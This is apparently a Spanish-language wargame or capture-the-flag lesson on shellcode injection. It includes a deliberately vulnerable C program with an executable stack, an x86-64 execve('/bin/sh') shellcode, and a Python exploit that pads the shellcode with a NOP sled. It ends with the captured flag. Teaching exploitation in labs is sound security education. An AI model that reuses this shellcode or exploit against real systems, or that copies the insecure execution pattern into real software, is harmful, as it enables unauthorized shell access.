

# Inyección de Shellcode

La lección anterior tenía shellcode "integrado" para demostrar la mecánica de cómo funciona. Esta vez, necesitaremos inyectar nuestro propio shellcode, además de maniobrar alrededor de algunos obstáculos que el binario nos presenta.

Este nivel te guiará a través del proceso de escribir, inyectar y ejecutar tu propio shellcode.

### Resultados de Aprendizaje

- Aprender a escribir y compilar shellcode
- Familiarizarse con la mecánica de usar Python para inyectar shellcode en un proceso

---

## Inyección de Shellcode

En la lección anterior, vimos cómo el shellcode podía ser colocado en el stack y luego ejecutado.

Esta vez, inyectaremos nuestro propio shellcode personalizado para familiarizarnos con la mecánica de este concepto.

Primero, ejecutemos el programa y veamos qué hace.

---

```C
// gcc -g -I ../includes -O0 -z execstack -fno-stack-protector -no-pie -o injection injection.c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

// Oculto por simplicidad
#include <wargames.h>

void main()
{
    init_wargame();
    
    printf("------------------------------------------------------------\n");
    printf("--[ Shellcoding - Inyección de Código                       \n");
    printf("------------------------------------------------------------\n");

    int offset = 0;
    char shellcode[512] = {};
    memset(shellcode, 0xcc, 512);

    printf("Ingresa shellcode: ");
    fgets(shellcode, sizeof(shellcode), stdin);
    
    // Semilla única en cada instancia
    srand(time(NULL));

    // Generar offset aleatorio > longitud del shellcode execv y < tamaño del buffer
    offset = (rand() % (513 - strlen(shellcode))) - 1;
    if (offset < 23)
        offset += 23;

    printf("Llamando shellcode...\n");
    (((void (*)(void))shellcode) + offset)();     
}
```

---

### El Código

En general, este binario es bastante similar al anterior.

Podemos ver que todavía hay una variable local llamada shellcode cuyo contenido se ejecuta al final del programa. Sin embargo, ahora tenemos que proporcionar el shellcode real.

Resaltadas en rojo hay algunas diferencias importantes. A saber:

- El buffer shellcode se inicializa con `0xcc`
- Se agrega un offset aleatorio al shellcode antes de que se ejecute

---

Primero, necesitamos compilar nuestro shellcode.

**¿Qué hace este shellcode?**

Este shellcode ejecuta el comando `/bin/sh` (shell de Unix/Linux) mediante una llamada al sistema `execve`. Analicemos paso a paso:

- `xor esi, esi` - Limpia el registro ESI (lo pone en 0)
- `movabs rbx, 0x68732f2f6e69622f` - Carga la cadena "/bin//sh" en RBX (en hexadecimal y orden little-endian)
- 
- `push rsi` / `push rbx` / `push rsp` / `pop rdi` - Construye un puntero a la cadena "/bin//sh" en RDI
- `push 0x3b` / `pop rax` - Establece RAX = 59 (número de la syscall `execve` en Linux x64)
- `xor edx, edx` - Limpia RDX (argumentos = NULL)
- `syscall` - Ejecuta la llamada al sistema

El resultado es que se spawea una shell interactiva, lo cual es el objetivo típico de muchos exploits.

Haz clic en la pestaña `Shellcode`, luego usa el ensamblador proporcionado para obtener una versión binaria del siguiente assembly:

```nasm
xor esi, esi
movabs rbx, 0x68732f2f6e69622f
push rsi
push rbx
push rsp
pop rdi
push 0x3b
pop rax
xor edx, edx
syscall
```

Una vez que hayas compilado el assembly, escribe y ejecuta un script de Python que envíe el shellcode compilado al binario.

----

Enviamos shellcode válido, pero el programa sigue crasheando en lugar de ejecutar nuestro shellcode.

Veamos qué está pasando:

```wdb
wdb> x/23bx $rip
0x7fffffffec0b: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0x7fffffffec13: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc
0x7fffffffec1b: 0xcc    0xcc    0xcc    0xcc    0xcc    0xcc    0xcc

wdb> x/10i $rip
0x7fffffffec0b: int3 
0x7fffffffec0c: int3 
0x7fffffffec0d: int3 
0x7fffffffec0e: int3 
0x7fffffffec0f: int3 
0x7fffffffec10: int3 
0x7fffffffec11: int3 
0x7fffffffec12: int3 
0x7fffffffec13: int3 
0x7fffffffec14: int3 
```

----

Debido al offset aleatorio que el programa agrega a la variable shellcode, el instruction pointer nunca "aterrizará" encima de nuestro código.

En su lugar, terminamos ejecutando los bytes `0xcc` prellenados, que se traducen a `int3`.

Esta instrucción causa un SIGTRAP, que usualmente se usan para implementar breakpoints. En este binario, solo se usan como una forma de "crashear" el programa.

---
## La Instrucción "NOP"

Necesitamos una forma de garantizar que nuestro shellcode eventualmente se ejecute. Para hacer esto, haremos uso de la instrucción NOP.

NOP significa No Operation, y la instrucción no hace nada excepto por su efecto inherente de incrementar `$rip`. El opcode para NOP es `\x90`.

Ve si puedes "rellenar" tu shellcode con instrucciones NOP de tal manera que puedas garantizar que se ejecute, incluso con el offset aleatorio.

----

## Exploit final

```python
import interact

process = interact.Process()

process.readuntil(b'Enter shellcode: ')

# Este es el shellcode de 23 bytes que nos dieron para ejecutar /bin/sh
shellcode = b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

# El búfer es de 512, pero fgets solo lee 511 bytes.
# Hacemos el payload total de 511 para que quepa perfectamente.
total_payload_size = 511

# Nota: fgets() lee hasta N-1 caracteres del stream y reserva un byte 
# para el terminador nulo '\0'. Por eso aunque el buffer sea de 512 bytes,
# solo podemos enviar 511 bytes útiles de payload.

# Calculamos el nuevo tamaño del relleno
padding_size = total_payload_size - len(shellcode) # 511 - 23 = 488 bytes de relleno

# Creamos la pista de NOPs con el tamaño corregido
nop_sled = b'\x90' * padding_size

payload = nop_sled + shellcode

# Usamos sendline para que fgets reciba el '\n' y termine la cadena con '\0'.
process.sendline(payload)

process.interactive()
```

----

```bash
cat flag
```

`flag{data_1s_c0de_and_c0de_1s_data}`
